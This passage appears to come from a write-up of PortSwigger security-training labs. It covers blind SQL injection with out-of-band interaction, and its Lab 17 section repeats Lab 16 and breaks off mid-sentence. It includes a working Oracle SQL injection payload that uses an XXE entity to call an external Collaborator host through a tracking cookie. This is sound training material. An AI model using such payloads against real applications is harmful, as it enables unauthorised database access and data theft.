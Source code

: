 At last, we will get the administrator password

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/0ddbcb40-6d09-41ed-a9bf-bb1c570ce81a)

Enter administrator username and its password

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/0b179563-62a6-4323-9787-b962736e9371)

Thus, lab is solved.

## Lab 16: Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

### Sol :

* Intercept the request through burpsuite and send it to repeater

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/36e4ccaf-7260-4510-bd14-f5b2b915b72b)

* Modify the `TrackingId` cookie to the a payload that will trigger an interaction with the Collaborator server. 

            TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[ <!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--

* Right-click and select `Insert Collaborator payload` to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.

## Lab 17: Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

### Sol :

* Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.
* Modify the TrackingId cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:
